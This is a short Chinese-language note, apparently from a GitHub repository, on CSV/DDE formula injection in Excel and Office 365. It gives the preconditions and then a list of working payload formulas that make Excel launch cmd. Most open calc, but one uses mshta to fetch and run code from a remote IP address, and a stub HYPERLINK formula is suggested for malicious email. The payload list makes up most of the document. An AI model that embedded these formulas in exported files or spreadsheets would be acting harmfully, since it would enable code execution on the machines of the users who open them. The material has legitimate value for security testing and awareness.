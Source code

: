 **不仅仅是cve当中的一个简单的注入，更是dde类型注入，在office365当中都具有**



和普通的注入差距不大，但是是属于导出到csv文件当中，当打开csv文件的时候就会造成csv当中的某些代码执行，当某些安全意识比较低的用户点开之后就会出现问题。 

## 前提

受害者需要配合点击  接受风险 之类的按钮 

并且在excel的程序当中需要打开dde

dde 是什么？ widnwos进程间通信协议，是一种动态数据交换机。当我们制作包含DDE公式的CSV文件的时候，在打开文件的时候Excel就会执行外部的应用。

其实在这里不光是 excel属于被攻击的向量office  365当中的其他软件同时如此，outlook excel 都是这样 







## 常见的payload

代码执行

```
=1+cmd|' /C calc'!A0
+1+cmd|'/c mshta.exehttp://192.168.233.102:8080/a'!A0
=1*cmd|' /C calc'!A0
-cmd|' /C calc'!A0
+cmd|' /C calc'!A0
@SUM(cmd|'/c calc'!A0)
%0A-1+cmd|' /C calc'!A0
;-1+cmd|' /C calc'!A0
1+cmd|’/C calc’!A0
```

恶意邮件进行利用 

```
HYPERLINK("urk","content")
```





## refer

[freebuf_csv解决方案](https://www.freebuf.com/vuls/195656.html)

[知道创宇的csv方案](https://blog.knownsec.com/2016/05/csv-injection-vulnerability/)


